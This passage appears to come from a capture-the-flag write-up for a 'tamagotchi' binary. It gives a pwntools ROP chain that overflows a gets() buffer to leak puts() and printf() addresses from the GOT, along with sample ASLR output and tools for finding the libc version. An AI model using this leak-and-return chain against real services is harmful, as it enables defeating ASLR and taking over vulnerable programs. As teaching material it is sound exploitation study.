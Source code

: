 ## Finding the libc version
To find the libc version used by the server we can leak the address of one or multiple functions that are loaded into the GOT (global offset table). <br>
This can be done by overflowing the buffer *gets()* writes to, and call *puts()* or *printf()* to print a function address to the terminal. <br>
The following ROP-chain would look like this
```python
from pwn import *

context.arch = "amd64"
elf = ELF("./tamagotchi", checksec=False)
p = elf.process()

offset = 40
# Create the ROP chain to overflow the buffer with
rop = ROP(elf)
rop.raw(b"A"*offset)
rop.puts(elf.got["puts"])
rop.call(elf.symbols["feed"])

# Send the payload
p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(rop.chain())
p.recvuntil(b"\n\n")
```

Overflowing the buffer with this payload will make the program print the address of the *puts()* function for us (which we can convert from bytes to hex)
```python
puts_leak = u64(p.recvuntil(b"\n").rstrip().ljust(8, b"\x00"))
log.info(f"Puts address found: {hex(puts_leak)}")
```
{: .nolineno}

The puts-address for this run of the program (because of ASLR)
```bash
$ python3 exploit.py
<snip>
[*] Loaded 14 cached gadgets for './tamagotchi'
[*] Puts address found: 0x7f26cebb4420
<snip>
```
{: .nolineno}

Knowing the address in libc for the *puts()* function we can look up which version of libc it is with e.g [libc.rip](https://libc.rip/). Multiple possible versions show up here, so we could leak the address of another function to make sure we get the correct one by changing from the puts function to another function in the GOT (e.g printf). Alternatively to libc.rip [this](https://github.com/niklasb/libc-database) github repo can be used (which is the backend of the site, and is linked to by the site).
```python
rop.puts(elf.got["printf"])
```
{: .nolineno}
